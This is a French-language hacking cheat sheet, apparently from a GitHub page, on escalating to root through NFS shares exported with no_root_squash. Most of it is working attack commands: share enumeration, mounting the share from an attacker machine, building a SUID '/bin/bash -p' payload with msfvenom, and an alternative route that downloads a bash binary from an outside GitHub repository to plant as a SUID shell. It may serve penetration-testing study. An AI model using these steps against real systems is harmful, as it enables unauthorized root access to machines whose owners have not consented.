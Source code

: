 Les vecteurs d’élévation de privilèges ne se limitent pas à l’accès interne.

**Les etapes d'exploitation:**
L'élément critique pour ce vecteur d'escalade de privilèges est l'option `no_root_squash`

- Enumerer les partages
- Sur votre box Kali, basculez vers votre utilisateur root
- Monter l'un des partages "no_root_squash" sur notre machine attaquante et commencer à construire l'exécutable
- Créer un exécutable avec le bit SUID (`chmod +s nfs`) défini et l'exécuter sur le système cible.

```sh
showmount -e <target>
```

```sh
cat /etc/exports
```

Afficher les dossier partager en reseau.

```sh
mount -o rw [TARGET_IP]:/[SHARE] /attacker/mount_folder
mount -o rw,vers=3 TARGET_IP:/tmp /attacker/mount_folder
sudo mount -t nfs [TARGET_IP]:/[SHARE] /attacker/mount_folder -nolock
```

Monter le partage `no_root_spuash`

```sh
cd /attacker/mount_folder
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
chmod +xs shell.elf
```

Generer un executable avec un SUID defini

```sh
/FULL_PATH/shell.elf
```

Sur la machine cible, executer le binaire

---
**Une autre approche**

```sh
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
```

- Accès NFS ->
- Gagnez un shell à faible privilège ->
- Téléchargez l'exécutable Bash sur le partage NFS ->
- Définir les autorisations SUID via NFS en raison d'un squash racine mal configuré ->
- Connectez-vous via SSH ->
- Exécuter l'exécutable SUID Bit Bash ->
- ACCÈS RACINE
